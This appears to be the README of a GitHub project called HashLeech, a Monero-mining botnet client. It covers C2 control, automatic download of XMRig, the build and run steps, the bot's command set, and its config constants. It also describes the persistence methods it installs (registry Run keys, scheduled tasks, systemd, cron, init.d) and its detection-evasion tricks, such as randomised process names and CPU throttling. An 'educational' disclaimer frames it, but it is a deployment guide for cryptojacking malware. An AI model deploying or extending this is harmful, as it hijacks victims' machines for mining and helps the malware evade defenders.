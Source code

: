 HashLeech - Cryptocurrency Mining Botnet
Disclaimer: This project is for educational and research purposes only. Unauthorized cryptocurrency mining on systems you don't own is illegal and unethical. Use this code only on systems you have explicit permission to test on.

Overview
HashLeech is a cryptocurrency mining botnet implementation that demonstrates how malware can distribute and manage cryptocurrency miners across multiple systems. Unlike traditional botnets focused on DDoS attacks, HashLeech specializes in Monero (XMR) mining using the XMRig miner.

Features
|---------------------------------------------------------------------------|
|Automatic Miner Deployment: Downloads and installs XMRig miner automatically|
|Command & Control (C2) Server: Centralized control of all mining nodes|
|Stealth Operation: Runs with minimal resource usage detection|
|Cross-Platform: Supports both Windows and Linux systems|
|Persistence Mechanisms: Automatically reinstalls after reboots|
|Dynamic Configuration: Remote updates of mining pool and settings|
|Heartbeat Monitoring: Regular status reports to C2 server|
|Resource Optimization: Adjusts mining intensity based on system specs|

```mermaid
graph TD
    BotClient[Bot Client - this repository]
    C2Server[C2 Server - separate repository]
    XMRig[XMRig Miner]

    BotClient -->|Connects to| C2Server
    BotClient -->|Downloads and runs| XMRig
    BotClient -->|Reports mining statistics| C2Server
    BotClient -->|Implements persistence| BotClient

    C2Server -->|Manages all connected bots| BotClient
    C2Server -->|Sends mining commands| XMRig
    C2Server -->|Collects statistics| BotClient
    C2Server -->|Updates mining configuration| XMRig

    XMRig -->|Official XMRig miner| XMRig
    XMRig -->|Configured for Monero mining| XMRig

```

Installation
For Research/Testing Purposes

Clone the repository:
```bash
git clone https://github.com/1Birdo/HashLeech.git
cd HashLeech
Configure the C2 server address in bot.go:
```
```go
const C2Address = "your.c2.server.com:7003"
```

Build the bot:
```bash
go build -o HashLeech
Run the bot:
```

```bash
./HashLeech
```
Command Reference
|------------|------------|----------------|
||
|Command	|Description	|Example|
|START	|Start mining operation	|START|
|STOP	|Stop mining operation	|STOP|
|UPDATE	|Update miner binary	|UPDATE|
|KILL	|Remove miner and bot	|KILL|
|PERSIST|	Install| persistence |mechanism	|PERSIST|

Configuration
Edit the following constants in bot.go before building:
```go
const (
    C2Address         = "your.c2.server.com:7003"  // Your C2 server address
    xmrigURL          = "https://github.com/xmrig/xmrig/releases/download/v6.20.0/xmrig-6.20.0-msvc-win64.zip"
    configURL         = "http://yourconfigserver.com/config.json" 
    minerPath         = "C:\\Windows\\Temp\\xmrig.exe"           // Windows path
    // minerPath      = "/tmp/xmrig"                            // Linux path
)
```
Mining Configuration
The config.json file should contain standard XMRig configuration. Example:

```json
{
    "autosave": true,
    "cpu": true,
    "opencl": false,
    "cuda": false,
    "pools": [
        {
            "url": "pool.moneroocean.stream:10128",
            "user": "your_wallet_address",
            "pass": "x",
            "keepalive": true,
            "tls": false
        }
    ]
}
```
Persistence Mechanisms
HashLeech implements multiple persistence methods:

Windows:
Registry Run key
Scheduled tasks

Linux:
Systemd service
Cron job
Init.d script

Both:
```Text
Detection Avoidance
Randomizes process names

Uses standard TLS for C2 communication
Limits CPU usage to avoid detection

Runs with low process priority
Hides in system temp directories
```
